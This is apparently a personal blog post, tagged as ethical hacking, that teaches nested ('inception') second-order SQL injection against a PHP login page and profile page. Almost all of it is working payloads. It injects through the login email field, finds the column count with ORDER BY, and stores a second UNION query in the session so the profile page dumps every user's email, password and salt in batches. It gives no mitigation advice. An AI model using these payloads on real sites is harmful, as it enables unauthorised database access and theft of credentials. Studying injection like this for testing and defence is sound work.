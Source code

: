 ```yaml
---
layout: post
title: "Nested SQL Injections"
language: "sql"
tags:
- sql-injection
- ethical-hacking
---
```

I recently did something along this line, and this technique is really cool. (I prefer to call it "inception" injection). Its pretty easy once you figure it out, so here it goes.

If the result of the first query is used as an input in the second query, and the first query is vulnerable, we can use the output as a "input variable" into the second query itself. This would be useful in places where the second query has a better display method than the first one (for instance length restrictions).

## Query 1:

{% highlight sql %}
SELECT * FROM users WHERE email='$email' AND password = '$pass'
{% endhighlight sql %}

This query is usually accompanied with:

{% highlight php %}
<?php
$_SESSION['email'] = $row['username'];
{% endhighlight php %}

## Query 2:

Assuming something like a profile page:
{% highlight sql %}
SELECT * FROM user_details WHERE email='{$_SESSION['email']}'
{% endhighlight sql %}
#Injection

Injecting the first query (basic)

{% highlight sql %}
SELECT * FROM users WHERE email='user@email.com' # AND password=''
{% endhighlight sql %}

Everything after # should be treated as a comment. Hence forward, I would not write stuff after # for brevity.

Thinking backwards, we could create a custom query for user_details:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT * FROM user_details #
{% endhighlight sql %}

This would show the details of the first user in the profile page. Let's think a bit larger:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT GROUP_CONCAT(email), GROUP_CONCAT(password) FROM user_details #
{% endhighlight sql %}

Usually, this won't work (different number of columns in results). You'd have to use ORDER BY to guess the number of columns. Writing only the `UNION` part now:

{% highlight sql %}
UNION SELECT * FROM user_details ORDER BY 1 #
UNION SELECT * FROM user_details ORDER BY 2 #
UNION SELECT * FROM user_details ORDER BY 3 #
UNION SELECT * FROM user_details ORDER BY 4 # -- Gives Error
{% endhighlight sql %}

So we realize that user_details has 3 columns. Coming back, we could do:

{% highlight sql %}
UNION SELECT GROUP_CONCAT(email), GROUP_CONCAT(password), 3 FROM users #
{% endhighlight sql %}

That would give us details upto 1000 characters (GROUP_CONCAT limits). To mitigate those limits:

{% highlight sql %}
UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0)
{% endhighlight sql %}	

Change the OFFSET and you're ready to roll.

## Inception Injection

This was all a theoritical attack on the second query. Granted you could do lots of stuff from here on the first query, but it is far less responsive (Doesn't give much output). The only thing you can modify is the email, which offers you a single field. 

However, the only attack vector (`$_SESSION`) for the second query is not directly controlled, but comes instead from the result of the first query. So to perform this attack on the second query, we take the second injection, and use it inside the first one.

{% highlight sql %}
SELECT * FROM users WHERE email='' UNION SELECT * FROM users # -- will give us first user
SELECT * FROM users WHERE email='' UNION SELECT * FROM users  ORDER BY 1 # -- keep increasing to get number of columns
SELECT * FROM users WHERE email='' UNION SELECT 1,2,3 FROM users # -- This would let us know which column corresponds to the email id
SELECT * FROM users WHERE email='' UNION SELECT "<inject second query here>",2,3 FROM users # -- This would let us know which column corresponds to the email id
{% endhighlight sql %}	

Although we have been writing injection code starting with UNION, it actually would start with ' UNION... Using our last injection code for the second query here, it becomes:

{% highlight sql %}
SELECT * FROM users WHERE email='' UNION SELECT "' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #",2,3 FROM users #
{% endhighlight sql %}	

What happens on the server side:

{% highlight php %}
<?php
	$_SESSION['email'] = "' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #"
{% endhighlight php %}	

and the second query becomes:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #
{% endhighlight sql %}	

Note that we still have to keep a # at the end of the inner query. There are portions after # which we still need to discard. Feel free to contact me if you have any further doubts. I am sure this is a well-known and used by people already, but this was something new to me.
